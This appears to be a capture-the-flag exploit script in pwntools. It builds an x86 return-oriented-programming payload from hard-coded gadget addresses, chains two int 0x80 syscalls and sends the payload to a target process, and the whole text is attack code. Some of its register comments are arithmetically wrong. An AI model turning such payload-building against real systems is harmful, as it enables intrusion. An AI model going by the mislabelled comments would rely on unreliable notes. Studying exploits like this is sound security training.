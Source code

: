 ```
pure_sub4_from_ecx = p32(0x080484f5)

pure_int80 = p32(0x080484f2)

# 0x080484df : push eax ; call edx
dirty_push1 = p32(0x080484df)

# 0x080484eb : push ebp ; mov ebp, esp ; ret
dirty_push2 = p32(0x080484eb)

# 0x08048534 : mov ecx, esp ; nop ; leave ; ret
dirty_killstack = p32(0x08048534)

pure_mov_valueatptr_esp_to_ebx = p32(0x0804841b) # or 0x0804841f / 0x0804841d. 1b is longest -> more legit

# 0x08048372 : push 0 ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
# idea: xor ebx
# Replacable: pure_xor_edx + pure_mov_edx_to_ebx
dirty1_xor = p32(0x08048372)


pay = "AAAA"*2 # padding
# ecx is pre set to ESP, now off setting it slightly to create some space
# (dangerous technique as we might find ourselves on the dangerous grounds but ok)

pay += pure_sub4_from_ecx*10

pay += pure_xor_edx #edx=0
pay += pure_inc_edx*3 #ebx=3
pay += pure_mov_edx_to_eax_and_ebx #eax=ebx=edx=3
pay += pure_inc_edx*(21+40) #edx=44
pay += pure_int80

pay += pure_xor_edx #edx=0
pay += pure_inc_edx*4 #edx=4
pay += pure_mov_edx_to_eax_and_ebx #eax=ebx=edx=4

pay += pure_xor_edx #edx=0
pay += pure_inc_edx*1 #edx=1
pay += pure_mov_edx_to_ebx #ebx=edx=1
pay += pure_inc_edx*43 #edx=64
pay += pure_int80
pay += main

print("pay: "+pay)
print("pay len: "+str(len(pay)))
print("=================sending pay===============")

io.sendline(pay)
io.interactive()
```
